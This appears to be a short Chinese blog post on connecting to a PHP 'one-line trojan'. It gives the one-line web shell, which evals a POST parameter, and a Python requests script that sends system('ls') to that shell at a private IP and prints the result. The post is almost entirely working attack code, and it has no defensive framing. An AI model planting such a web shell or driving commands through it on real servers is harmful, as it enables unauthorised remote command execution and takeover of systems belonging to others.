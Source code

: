 # python---连接一句话木马

一句话木马如下：  
```php
<?php @eval($_POST['moxiaoxi']);?>
```

python 脚本如下：  
```python
# coding:utf8

import requests


enemy_addr = 'http://10.160.40.96:8801/webshell.php'

data = {
    'moxiaoxi': "system('ls');"
}

res = requests.post(enemy_addr, data=data)
print(res.content)
```


2020/6/10  
